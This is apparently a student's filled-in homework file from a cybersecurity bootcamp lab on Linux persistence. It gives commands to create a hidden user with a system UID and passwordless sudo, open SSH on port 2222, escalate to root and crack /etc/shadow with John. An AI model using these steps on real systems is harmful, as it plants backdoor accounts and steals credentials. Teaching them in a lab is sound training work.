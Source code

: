 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 900 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
	sysd ALL=(ALL:ALL) NOPASSWD:ALL	

6. Test that `sudo` access works without your password:

    ```bash
    Your bash commands here
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```Port 22
	Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh

2. Exit the `root` account:
    - logout

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su -

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
	john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


![image](https://user-images.githubusercontent.com/94209591/161419494-1373d835-20d3-49d4-9989-c66bfb802dc0.png)

